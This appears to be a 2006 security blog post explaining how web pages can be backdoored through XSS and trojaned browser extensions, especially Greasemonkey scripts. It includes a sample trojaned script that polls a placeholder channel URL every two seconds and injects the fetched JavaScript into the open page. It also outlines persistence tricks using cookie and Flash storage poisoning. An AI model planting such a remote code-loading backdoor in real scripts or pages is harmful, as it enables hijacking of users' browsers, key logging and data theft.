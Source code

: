 ```yaml
---
title: Backdooring Web Pages
author: pdp
date: Mon, 28 Aug 2006 11:09:08 GMT
template: post.jade
category: fucked
---
```


![Greasemonkey](/files/2006/08/greasemonkey.jpg "Greasemonkey")

The most obvious way of maliciously infecting web pages is to perform Cross-Site Scripting (XSS). In practice, XSS vulnerabilities can be persistent and non-persistent. Depending on the type, the attacker has various degree of control. The persistent vector produces better results and it lasts longer, where non-persistent vector lasts a single hit, although it is possible for the attacker to take control of the user browser by using other techniques. Here I am trying to explore another vector that can permanently take control of the user web experience.

IMHO, there are three types of web page backdoors: non-persistent, persistent and global persistent. Non-persistent backdoors occur on a single XSS vulnerable page (hit). Persistent backdoors a bit better because they can occur on one or more XSS vulnerable pages most probably coming from the same domain (site). Global persistent backdoors occur on all domains (sites) and in theory they can last forever.

Global persistent backdoors do not rely on the server being vulnerable to XSS or any other type of server related vulnerability. Global persistent backdoors exploit browser functionalities.

In order to install global persistent backdoor the attacker can exploit known browser vulnerabilities which allow silent installation of new functionalities, exploit known extension vulnerabilities which allow [Cross Context Scripting](/blog/cross-context-scripting) (execution of malicious web content in the browser context) or [exploit the user's trust](/blog/xssing-the-lan-4) ([trojaning](/blog/xssing-the-lan-3)).

The first two scenarios rely on a browser or a browser's extensions being vulnerable. Finding those vulnerabilities may take some time and it might not be that feasible, not to mention the fact that once an attacker exploits them the entire system probably will be subjected to attacker's wishes. On the other hand, the last scenario tricks the user into performing something legitimate which in fact turns to be something malicious (trojaning). This quite old trick but very successful and widely exploited as well.

Exploiting the user's trust in order to install backdoor could be achieved in several ways each one of which provides various degree of success. The first one is asking the user to install a browser extension. This type of scenario could be successful in browsers that do not have central extension repositories. In that respect IE is probably the most vulnerable. Opera, with its Web Widgets could potentially fall into the same category. On the other hand, Firefox users tend to install extensions from known sources such as `addons.mozilla.org`, so they are the least vulnerable.

The second scenario occurs when the attacker is asking the user to install extensions of extension. This one is far more trusted since extensions of extension are believed to be harmless. Firefox's and IE's Greasemonkey extension and Opera's Web Widgets are good examples of those kinds of scenarios.

To some respect, security aware users could detect malicious scripts so they are less vulnerable. On the other hand the average user trusts the security model of the browser, so  trojaned Greasemonkey script can be quite easily installed. A sample trojaned script can contain something like the following:

    setInterval(function () {
    	var head = document.getElementsByTagName('head').item(0);
    	var old  = document.getElementById('last_loaded_cmd');

    	if (old)
    		head.removeChild(old);

    	script = document.createElement('script');
    	script.src = 'http://path/to/channel';
    	script.type = 'text/javascript';
    	script.defer = true;
    	script.id = 'last_loaded_cmd';
    	void(head.appendChild(script));
    }, 2000);

The code presented above will query every 2 seconds  **http&#58;//path/to/channel** for JavaScript code that is evaluated inside the currently open page. This model allows attackers to inject any type of JavaScript based tool (scanners, other communication channels, page key loggers, etc). Similar effect can be achieved with Opera's Web Widgets although modifications of this code are required.

This type of backdoor has a big problem. Once the user finds that the Greasemonkey script (or the Web Widget) is not needed anymore, or that it contains malicious code, proper cleaning actions will be taken.

_This is good but like any other malicious code, web page backdoors can assure the existence of hidden channels for reinstallation and further propagation. In that respect the backdoor could perform internal cross site scripting by poisoning cookies or flash objects such as [The Flash Persistent Storage Model](http://codinginparadise.org/projects/storage/README.html) which is widely used in several AJAX frameworks. Other countermeasures can be taken as well such as taking advantage of the page caching issues. All of these are related to a discipline known as DOM based Cross-site scripting._
